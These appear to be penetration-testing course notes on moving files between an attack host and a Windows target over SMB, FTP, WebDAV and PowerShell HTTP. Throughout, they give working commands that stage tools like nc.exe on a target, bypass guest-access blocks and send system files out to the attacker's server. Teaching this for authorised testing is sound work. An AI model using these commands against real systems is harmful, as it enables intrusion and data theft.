 
### SMB Downloads
The Server Message Block (SMB) protocol, running on TCP/445, is commonly used in Windows-based enterprise networks for file sharing. SMB allows users and applications to transfer files between machines. To download files from a Pwnbox, you can set up an SMB server using Impacket's `smbserver.py`. The basic command to set up the server is:

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

You can download files using `copy` on the target machine:

```bash
copy \\192.168.220.133\share\nc.exe
```

Newer versions of Windows block unauthenticated guest access. To bypass this, configure the SMB server with a username and password:

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

Then, mount the SMB server on the target machine:

```bash
net use n: \\192.168.220.133\share /user:test test
copy n:\nc.exe
```

### FTP Downloads
FTP (TCP/21) is another file transfer method. To set up an FTP server on your attack host, install the `pyftpdlib` Python module:

```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```

To transfer files, you can use the built-in FTP client or PowerShell’s `Net.WebClient`:

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

For an interactive shell, create a command file for the FTP client:

```bash
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

### Upload Operations
Uploading files from a target machine can be done similarly to downloading, using methods like PowerShell encoding or web-based uploads. For encoding, you can base64 encode a file in PowerShell:

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

On the attack host, decode the file:

```bash
echo <base64_string> | base64 -d > hosts
md5sum hosts
```

For web uploads, use a Python web server configured for file uploads, such as `uploadserver`:

```bash
pip3 install uploadserver
python3 -m uploadserver
```

Then, use PowerShell to upload the file:

```powershell
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

This completes the processes for downloading and uploading files using SMB, FTP, and PowerShell web uploads.

### PowerShell Base64 Web Upload

This method demonstrates how PowerShell can be used to encode a file in Base64 and upload it to a server using `Invoke-WebRequest`. The payload is transmitted as a POST request to a specified URI, and the data is then caught using Netcat. Afterward, the data is decoded back to its original form.

### Step 1: Encoding the File in Base64

First, we convert the contents of a file (`hosts` file in this case) into Base64:

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\\Windows\\System32\\drivers\\etc\\hosts' -Encoding Byte))

```

This command reads the `hosts` file as raw bytes and then converts it into a Base64 string.

### Step 2: Uploading the Encoded File via HTTP

Next, we use `Invoke-WebRequest` to upload the Base64 encoded file to a remote server. The server is assumed to be listening on port 8000:

```powershell
Invoke-WebRequest -Uri <http://192.168.49.128:8000/> -Method POST -Body $b64

```

Here, we send the encoded file as a POST request with the Base64 string as the body.

### Step 3: Catching the Data with Netcat

On the receiving server (listening on port 8000), we use Netcat to catch the incoming Base64 data:

```bash
$ nc -lvnp 8000

```

Netcat listens for connections and displays the incoming data. The Base64-encoded content appears in the console.

### Step 4: Decoding the File

After receiving the Base64-encoded data, we decode it back to its original file using the `base64` tool:

```bash
bash
Copy code
echo <base64> | base64 -d -w 0 > hosts

```

This command takes the Base64 data, decodes it, and writes it back to a file (`hosts`).

---

### SMB Uploads via WebDAV

The next section discusses using **SMB over HTTP** with WebDAV. Many organizations restrict SMB traffic (TCP/445) due to security concerns, but WebDAV provides a workaround by running SMB over HTTP (TCP/80). This method is commonly used for file sharing and remote access.

### Setting Up WebDAV Server

To set up a WebDAV server, we install the necessary Python modules:

```bash
$ sudo pip3 install wsgidav cheroot

```

Then, we run the WebDAV server:

```bash

$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous

```

This command runs the WebDAV server on port 80, serving files from `/tmp` with anonymous authentication.

### Connecting to the WebDAV Share

Once the WebDAV server is set up, we can access it from a Windows machine using the `DavWWWRoot` folder:

```powershell
dir \\\\192.168.49.128\\DavWWWRoot

```

This command lists the files available on the WebDAV server.

### Uploading Files via WebDAV

To upload a file (e.g., `SourceCode.zip`) to the WebDAV share, we use the `copy` command:

```powershell
C:\\Users\\john\\Desktop\\SourceCode.zip \\\\192.168.49.128\\DavWWWRoot\\

```

This uploads the specified file to the WebDAV share, allowing for easy file transfer over HTTP.

---

### FTP Uploads

FTP (File Transfer Protocol) is another method for uploading files. In this section, we discuss how to set up an FTP server using Python's `pyftpdlib` module and how to use PowerShell or command line tools to upload files to it.

### Setting Up the FTP Server

We start the FTP server with the `--write` flag to allow uploading:

```bash
$ sudo python3 -m pyftpdlib --port 21 --write

```

This starts the FTP server on port 21, with write permissions for anonymous users.

### Uploading Files via PowerShell

Using PowerShell, we can upload a file to the FTP server with the following command:

```powershell
(New-Object Net.WebClient).UploadFile('<ftp://192.168.49.128/ftp-hosts>', 'C:\\Windows\\System32\\drivers\\etc\\hosts')

```

This command uploads the `hosts` file to the specified FTP server.

### Creating an FTP Command File

Alternatively, you can create an FTP command file (`ftpcommand.txt`) to automate the file upload process:

```powershell
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\\windows\\system32\\drivers\\etc\\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt

```

This script automates logging in, setting the transfer mode to binary, uploading the file, and closing the connection.

---

### Recap

This section highlighted multiple methods to upload files using native tools such as PowerShell, FTP, and WebDAV. Each method allows file transfer under different network configurations, offering flexibility in various penetration testing scenarios.